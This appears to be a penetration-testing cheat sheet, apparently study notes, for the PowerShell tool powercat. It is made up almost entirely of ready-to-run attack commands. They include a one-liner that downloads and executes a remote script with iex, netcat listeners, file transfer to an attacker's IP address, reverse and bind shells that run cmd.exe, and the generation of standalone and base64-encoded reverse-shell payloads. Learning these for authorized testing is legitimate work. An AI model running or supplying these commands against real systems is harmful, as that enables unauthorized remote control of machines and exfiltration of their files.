 [powercat.ps1](https://github.com/besimorhino/powercat/blob/master/powercat.ps1)
 

 ### running remote scripts using iex
```
 iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

 ```
 
 # Powercat File Transfers
 
 **listener on linux**
 ```
 sudo nc -lnvp 443 > receiving_powercat.ps1
 ```
**send on windows**

```
powercat -c IPADDRESS -p 443 -i C:\Users\Offsec\powercat.ps1
```
- `-c` option  specifies  client  mode sets the listening IP address, 
- `-p` specifies the port number to connect to
- `-i` indicates the local file that will be transferred remotely
- 
# Powercat Reverse Shells

**linux listener**
```
sudo nc -lvp 443
```
**windows send shell**
```
powercat -c IPADDRESS -p 443 -e cmd.exe
```

# Powercat Bind Shells
- `-l` option  to  create  a  listener
- `-p` to  specify  the  listening  port  number
- `-e` to  have  an application (cmd.exe) executed once connected

```
powercat -l -p 443 -e cmd.exe
```

# Powercat Stand-Alone Payloads

```
powercat -c IPADDRESS -p 443 -e cmd.exe -g >reverseshell.ps1
```
**Base64 Encoded**
```
powercat -c IPADDRESS -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
```
**which requires passing the full encoded string to the executable**
```
powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0AHIAZQBhAG0AMQBfAFMAZQB0AHUAcAAKAHsACgAKACAAIAAgACAAcABhAHIAYQB... 
